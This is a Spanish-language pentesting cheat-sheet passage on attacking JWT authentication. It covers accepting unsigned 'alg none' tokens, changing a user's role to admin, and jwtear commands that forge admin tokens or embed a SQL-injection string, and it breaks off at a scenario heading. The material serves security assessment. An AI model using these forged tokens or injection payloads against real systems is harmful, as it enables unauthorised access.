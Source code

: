 JWT se utiliza para aplicaciones sin estado. El uso de JWT da como resultado que no haya almacenamiento del lado del servidor ni administración de sesiones basada en bases de datos. Toda la información se coloca dentro de un token JWT firmado:

* Confiar solo en la clave secreta
* No es posible cerrar sesión o invalidar usuarios específicos debido al enfoque sin estado anterior. Se utiliza la misma clave de firma para todos.

La autenticación basada en JWT puede volverse insegura cuando se confía ciegamente en los datos del lado del cliente dentro del JWT

Muchas aplicaciones aceptan ciegamente los datos contenidos en la carga útil (sin verificación de firma)

```
- try submitting various injection-related strings
- try changing a users role to admin
```

Muchas aplicaciones no tienen problemas para aceptar una firma vacía (de hecho, sin firma)

```
- the above is also known as "the admin party in JWT"
- this is by design, to support cases when tokens have already been verified through another way
- when assessing JWT endpoints set the alg to none and specify anything in the payload
```

Además, la información de seguridad de JWT:

→ https://www.reddit.com/r/netsec/comments/dn10q2/practical\_approaches\_for\_testing\_and\_breaking\_jwt/

#### Herramientas para evaluar/atacar JWT <a href="#tools-for-assessingattacking-jwt" id="tools-for-assessingattacking-jwt"></a>

→ https://github.com/KINGSABRI/jwtear

Ejemplo de creación de tokens firmados HMAC SHA256:

```
jwtear --generate-token --header '{"typ":"JWT","alg":"HS256"}' --payload '{"login":"admin"}' --key 'cr@zyp@ss'
```

Ejemplo de creación de token de firma vacío:

```
jwtear --generate-token --header '{"typ":"JWT","alg":"none"}' --payload '{"login":"admin"}'
```

Ejemplo de prueba para inyección:

```
jwtear --generate-token --header '{"typ":"JWT","alg":"none"}' --payload $'{"login":"admin\' or \'a\'=\'a"}'                  "
// $ is used to escapse single quotes
```

#### Escenario 1 del ataque JWT <a href="#jwt-attack-scenario-1" id="jwt-attack-scenario-1"></a>
